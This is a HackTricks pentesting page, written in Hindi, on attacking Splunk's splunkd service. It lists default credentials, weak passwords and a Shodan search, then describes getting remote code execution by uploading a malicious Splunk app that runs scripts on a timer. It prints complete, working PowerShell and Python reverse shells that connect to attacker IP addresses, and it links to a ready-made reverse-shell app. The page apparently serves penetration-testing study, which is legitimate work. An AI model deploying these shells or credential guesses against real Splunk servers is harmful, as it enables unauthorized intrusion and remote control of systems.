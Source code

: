 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **बुनियादी जानकारी**

* डेटा संग्रह, विश्लेषण और दृश्यता के लिए उपयोग किया जाने वाला लॉग एनालिटिक्स उपकरण
* सुरक्षा निगरानी और व्यावसायिक विश्लेषण में सामान्यतः उपयोग किया जाता है
* डिफ़ॉल्ट पोर्ट:
* वेब सर्वर: 8000
* Splunkd सेवा: 8089

### कमजोरियों के वेक्टर:

1. मुफ्त संस्करण का शोषण

* परीक्षण संस्करण 60 दिनों के बाद स्वचालित रूप से मुफ्त संस्करण में परिवर्तित हो जाता है
* मुफ्त संस्करण में प्रमाणीकरण की कमी है
* प्रबंधित न करने पर संभावित सुरक्षा जोखिम
* प्रशासक सुरक्षा निहितार्थों को नजरअंदाज कर सकते हैं

2. क्रेडेंशियल कमजोरियाँ

* पुराने संस्करण: डिफ़ॉल्ट क्रेडेंशियल `admin:changeme`
* नए संस्करण: स्थापना के दौरान सेट किए गए क्रेडेंशियल
* कमजोर पासवर्ड के उपयोग की संभावना (जैसे, `admin`, `Welcome`, `Password123`)

3. रिमोट कोड निष्पादन के अवसर

* कोड निष्पादन के कई तरीके:
* सर्वर-साइड Django अनुप्रयोग
* REST एंडपॉइंट
* स्क्रिप्टेड इनपुट
* अलर्टिंग स्क्रिप्ट
* क्रॉस-प्लेटफ़ॉर्म समर्थन (Windows/Linux)
* स्क्रिप्टेड इनपुट चला सकते हैं:
* बैश स्क्रिप्ट
* पावरशेल स्क्रिप्ट
* बैच स्क्रिप्ट

मुख्य शोषण क्षमता:

* संवेदनशील डेटा भंडारण
* मुफ्त संस्करण में प्रमाणीकरण की कमी
* संभावित रिमोट कोड निष्पादन के लिए कई वेक्टर
* सिस्टम समझौते के लिए स्क्रिप्टेड इनपुट का लाभ उठाने की संभावना

### Shodan

* `Splunk build`

## RCE

### कस्टम एप्लिकेशन बनाएं

Splunk कस्टम एप्लिकेशन तैनाती के माध्यम से रिमोट कोड निष्पादन के लिए एक परिष्कृत विधि प्रदान करता है, जो इसके क्रॉस-प्लेटफ़ॉर्म स्क्रिप्टिंग क्षमताओं का लाभ उठाता है। मुख्य शोषण तकनीक एक दुर्भावनापूर्ण एप्लिकेशन बनाने के चारों ओर घूमती है जो Windows और Linux दोनों सिस्टम पर रिवर्स शेल निष्पादित कर सकती है।

एक कस्टम एप्लिकेशन **Python, Batch, Bash, या PowerShell स्क्रिप्ट** चला सकता है। इसके अलावा, **Splunk के साथ Python स्थापित है**, इसलिए **Windows** सिस्टम में भी आप Python कोड चला सकेंगे।

आप [**इस**](https://github.com/0xjpuff/reverse_shell_splunk) उदाहरण का उपयोग कर सकते हैं जिसमें **`bin`** में [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) और [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) के लिए उदाहरण शामिल हैं। या आप अपना खुद का बना सकते हैं।

शोषण प्रक्रिया प्लेटफार्मों के बीच एक सुसंगत पद्धति का पालन करती है:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
महत्वपूर्ण कॉन्फ़िगरेशन फ़ाइल `inputs.conf` स्क्रिप्ट को सक्षम बनाती है:

* `disabled = 0` सेट करना
* 10-सेकंड के निष्पादन अंतराल को कॉन्फ़िगर करना
* स्क्रिप्ट के स्रोत प्रकार को परिभाषित करना

तैनाती सीधी है:

1. दुर्भावनापूर्ण एप्लिकेशन पैकेज बनाएं
2. हमलावर मशीन पर एक श्रोता (Netcat/socat) सेट करें
3. Splunk के इंटरफ़ेस के माध्यम से एप्लिकेशन अपलोड करें
4. अपलोड के बाद स्वचालित स्क्रिप्ट निष्पादन को ट्रिगर करें

नमूना Windows PowerShell रिवर्स शेल:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
नमूना लिनक्स पायथन रिवर्स शेल:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

इस पृष्ठ पर आप यह समझ सकते हैं कि इस सेवा का दुरुपयोग कैसे किया जा सकता है ताकि विशेषाधिकार बढ़ाए जा सकें और स्थिरता प्राप्त की जा सके:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
